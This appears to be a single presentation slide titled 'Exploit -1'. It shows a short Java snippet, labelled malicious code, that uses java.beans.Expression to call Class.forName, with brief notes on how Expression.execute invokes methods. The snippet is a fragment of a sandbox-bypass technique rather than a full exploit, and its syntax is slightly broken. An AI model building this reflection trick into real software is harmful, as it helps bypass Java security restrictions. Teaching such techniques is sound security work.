

# Exploit -1
// Malicious code
Private Class GetClass(String paramString) throws Throwable{
     Object arrayOfObject [] = new Object[1];
     arrayOfObject [0] = paramString;
     Expression localExpression
            = new Expression(Class.class, “forName”, arrayOfObject);
     localExpression.execute();
     return (Class)localExpression.getValue();
}

java.beans.Expression: represents a primitive expression in which a single method is applied to a target and a set of arguments to return a result - as in "a.getFoo()"
java.beans.Expression.execute(): invokes the method on the target.  It delegates its work to another private method: invokeInternal().
27